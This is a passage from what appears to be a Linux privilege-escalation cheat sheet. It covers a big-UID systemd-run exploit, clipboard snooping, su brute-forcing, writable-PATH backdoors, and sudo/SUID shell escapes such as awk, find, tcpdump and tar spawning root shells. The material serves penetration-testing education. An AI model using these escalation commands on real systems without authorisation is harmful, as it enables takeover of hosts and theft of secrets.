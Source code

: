gpg --list-keys 2>/dev/null
Big UID
Some Linux versions were affected by a bug that allow users with UID > INT_MAX to escalate privileges. More info: here, here and here.
Exploit it using: systemd-run -t /bin/bash

Groups
Check if you are a member of some group that could grant you root privileges:

Interesting Groups - Linux PE
/linux-unix/privilege-escalation/interesting-groups-linux-pe
Clipboard
Check if anything interesting is located inside the clipboard (if possible)

if [ `which xclip 2>/dev/null` ]; then
    echo "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
    echo "Highlighted text: "`xclip -o 2>/dev/null`
  elif [ `which xsel 2>/dev/null` ]; then
    echo "Clipboard: "`xsel -ob 2>/dev/null`
    echo "Highlighted text: "`xsel -o 2>/dev/null`
  else echo "Not found xsel and xclip"
  fi
Password Policy
grep "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs
Known passwords
If you know any password of the environment try to login as each user using the password.

Su Brute
If don't mind about doing a lot of noise and su and timeout binaries are present on the computer you can try to brute-force user using su-bruteforce.
Linpeas with -a parameter also try to brute-force users.

Writable PATH abuses
$PATH
If you find that you can write inside some folder of the $PATH you may be able to escalate privileges by creating a backdoor inside the writable folder with the name of some command that is going to be executed by a different user (root ideally) and that is not loaded from a folder that is located previous to your writable folder in $PATH.

SUDO and SUID
You could be allowed to execute some command using sudo or they could have the suid bit. Check it using:

sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
Some unexpected commands allows you to read and/or write files or even execute command. For example:

sudo awk 'BEGIN {system("/bin/sh")}'
sudo find /etc -exec sh -i \;
sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
sudo tar c a.tar -I ./runme.sh a
ftp>!/bin/sh
less>! <shell_comand>
NOPASSWD
Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.
